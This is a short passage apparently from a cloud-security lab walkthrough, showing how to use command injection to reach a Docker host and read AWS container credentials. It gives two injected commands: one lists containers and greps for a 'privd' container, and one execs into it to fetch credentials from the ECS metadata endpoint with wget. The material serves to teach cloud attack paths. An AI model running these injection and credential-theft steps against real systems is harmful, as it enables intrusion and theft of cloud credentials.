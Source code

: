 <p align="center">
  <img src="/images/cloud/docker_ps.png">
</p>

* Grep the privd container details.

```bash
; docker ps | grep privd
```

<p align="center">
  <img src="/images/cloud/container_id1.png">
</p>

* Using command injection get the container credentials for the privd container.

```bash
; docker exec <privd container id> sh -c 'wget -O- 169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI'
```
